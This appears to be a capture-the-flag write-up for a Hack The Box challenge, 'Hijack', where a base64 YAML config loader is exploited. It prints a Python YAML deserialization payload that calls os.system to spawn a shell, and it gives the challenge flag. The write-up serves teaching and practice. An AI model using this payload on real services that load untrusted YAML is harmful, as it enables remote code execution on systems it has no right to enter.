



# Hijack
> The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?

## About the Challenge
We were given a server to connect using nc. Here is the preview



There are 2 functionalities on the application, we can create a config and we can load the config

## How to Solve?
If we choosing `Create config` functionality, you need to input the temperature units, target temperatur (solar array, propulsion components, and infrared spectrometer), and auto calibration. After that you will get the result in `base64` encoding



If we decode the config, you will get this result

```python
!!python/object:__main__.Config {IR_spectrometer_temp: '30', auto_calibration: 'ON', propulsion_temp: '10', solar_array_temp: '20', units: F}
```

The config is using YAML structure, and im using [Hacktricks: Python Yaml Deserialization
](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) as a reference to do Python YAML Deserialization

So the final payload is
```
!!python/object/apply:os.system
- sh
```

And then encode the payload using `base64` encoding. Choose option 2 (Load Config) and paste the payload there



```
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
```